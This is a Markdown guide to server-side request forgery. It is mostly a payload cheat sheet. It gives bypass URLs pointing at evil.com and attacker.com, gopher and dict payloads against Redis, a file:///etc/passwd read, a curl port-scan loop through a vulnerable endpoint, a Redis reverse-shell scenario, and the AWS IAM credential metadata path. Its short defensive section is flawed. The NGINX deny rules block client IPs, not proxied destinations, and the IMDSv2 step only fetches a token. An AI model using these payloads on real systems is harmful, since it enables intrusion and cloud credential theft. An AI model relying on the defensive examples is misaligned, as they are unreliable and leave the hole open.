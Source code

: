 
# Server-Side Request Forgery (SSRF) Vulnerability Guide

![SSRF Diagram](https://media.licdn.com/dms/image/v2/D4D12AQEdv6qTMsDaqg/article-cover_image-shrink_720_1280/article-cover_image-shrink_720_1280/0/1731662039422?e=2147483647&v=beta&t=Tz5aBcJ5DjZ6EPj70RACFpBcscEHFoRTtTmCEWGAAmc)  
                                         *Figure:  SSRF attack flow demonstrating unauthorized internal network access*

---

## Table of Contents
- [Introduction](#introduction)
- [Tools](#tools)
- [Bypass Techniques](#bypass-techniques)
- [Exploitation Scenarios](#exploitation-scenarios)
- [HTTP Headers for SSRF](#http-headers-for-ssrf)
- [Defensive Measures](#defensive-measures)
- [References](#references)

---

## Introduction
**Server-Side Request Forgery (SSRF)** occurs when an attacker manipulates a vulnerable server to send crafted requests to internal or external systems on their behalf. It is commonly used to:
- Access internal services behind firewalls
- Extract metadata from cloud services (e.g., AWS, Azure, GCP)
- Perform port scans or pivot attacks
- Abuse trust boundaries

---

## Tools

| Tool       | Description                                  | Link |
|------------|----------------------------------------------|------|
| SSRFmap    | Automated SSRF exploitation tool             | [GitHub](https://github.com/swisskyrepo/SSRFmap) |
| Gopherus   | SSRF payload generator (Gopher, Redis, etc.) | [GitHub](https://github.com/tarunkant/Gopherus) |
| rbndr      | DNS rebinding testing and SSRF vector tool   | [GitHub](https://github.com/taviso/rbndr) |
| Interactsh | Out-of-band (OOB) detection platform         | [GitHub](https://github.com/projectdiscovery/interactsh) |

---

## Bypass Techniques

### 1. URL Obfuscation
```
http://expected-host@evil.com/
http://evil.com:80@expected.com:80/
````

### 2. DNS Tricks

```
http://169.254.169.254.nip.io
http://metadata.google.internal.attacker.com
http://[::ffff:a9fe:a9fe]
```

### 3. Protocol Schemes

```
gopher://127.0.0.1:6379/_*2%0d%0a$4%0d%0aPING%0d%0a
dict://127.0.0.1:6379/INFO
file:///etc/passwd
```

### 4. Encoding Techniques

```
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ
http://%6d%65%74%61%64%61%74%61%2e%67%6f%6f%67%6c%65%2e%69%6e%74%65%72%6e%61%6c
```

### 5. Cloud Metadata Endpoints

```
# AWS
http://169.254.169.254/latest/meta-data/

# GCP
http://metadata.google.internal/computeMetadata/v1/

# Azure
http://169.254.169.254/metadata/instance?api-version=2020-09-01

```

---

## Exploitation Scenarios

### 1. Internal Service Port Scanning

```bash
for port in {1..65535}; do
    curl "http://vulnerable.com/fetch?url=http://127.0.0.1:$port" -m 1
done


```

### 2. Redis Unauthorized Command Injection

```
gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a...

```

# Injects a reverse shell via Redis cron manipulation



### 3. AWS IAM Role Credential Theft

```
http://169.254.169.254/latest/meta-data/iam/security-credentials/

```

---

## HTTP Headers for SSRF

In some SSRF scenarios, the server may derive internal request parameters from HTTP headers. Abuse these headers to influence server-side routing:

### Common Headers That Can Trigger SSRF:

* `Host`: Spoofed host override
* `X-Forwarded-For`: Fakes source IP address
* `X-Forwarded-Host`: Overrides backend target
* `X-Forwarded-Proto`: Alters HTTP/HTTPS routing
* `Forwarded`: RFC-compliant combination of forwarding headers
* `Referer`: May influence behavior in redirection logic
* `Location`: Can be abused for SSRF via open redirects

```http
GET / HTTP/1.1
Host: internal.service
X-Forwarded-Host: 169.254.169.254
X-Forwarded-For: 127.0.0.1
```

---

## Defensive Measures

### 1. Input Validation

* Allowlist only specific hostnames and protocols
* Reject all private/reserved IP ranges (RFC1918, 127.0.0.1, etc.)

### 2. Network Layer Filtering (Example: NGINX)

```nginx
location /proxy {
    deny 10.0.0.0/8;
    deny 172.16.0.0/12;
    deny 192.168.0.0/16;
    deny 127.0.0.0/8;
    deny 169.254.0.0/16;
    proxy_pass $url;
}
```

### 3. Application Hardening

* Disable unused URL schemes (`gopher://`, `file://`, etc.)
* Normalize and parse URLs using secure libraries

### 4. Cloud-Specific Protections

* Enforce [AWS IMDSv2](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-service.html):

```bash
curl -X PUT "http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"
```

* Block access to metadata IP ranges from within applications or WAFs

---

## References

* [OWASP SSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
* [A New Era of SSRF - BlackHat USA 2017](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)
* [NCC Group Whitepaper - SSRF in Cloud Metadata APIs](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2019/july/ncc_group_whitepaper_ssrf_cloud_metadata_api.pdf)

---

